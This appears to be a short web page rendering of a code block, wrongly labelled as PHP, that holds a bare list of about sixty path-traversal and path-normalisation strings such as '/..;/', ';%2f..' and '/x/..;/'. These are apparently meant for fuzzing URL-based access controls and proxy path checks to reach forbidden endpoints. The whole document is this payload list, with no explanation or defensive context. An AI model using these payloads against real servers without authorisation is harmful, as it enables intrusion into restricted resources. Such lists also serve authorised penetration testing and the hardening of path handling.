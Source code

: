 ```php
/../.;/../
/..//
/..//../
/..//../../
/..//..;/
/../;/
/../;/../
/..;%2f
/..;%2f..;%2f
/..;%2f..;%2f..;%2f
/..;/
/..;/../
/..;/..;/
/..;//
/..;//../
/..;//..;/
/..;/;/
/..;/;/..;/
/./
/.//
/.;/
/.;//
//
//..
//../../
//..;
//./
//.;/
///..
///../
///..//
///..;
///..;/
///..;//
//;/
/;/
/;//
/;?
/;x
/;x/
/?
/?;
/x/../
/x/..//
/x/../;/
/x/..;/
/x/..;//
/x/..;/;/
/x//../
/x//..;/
/x/;/../
/x/;/..;/
;
;%09
;%09..
;%09..;
;%09;
;%2F..
;%2f%2e%2e
;%2f%2e%2e%2f%2e%2e%2f%2f
;%2f%2f/../
;%2f..
;%2f..%2f%2e%2e%2f%2f
```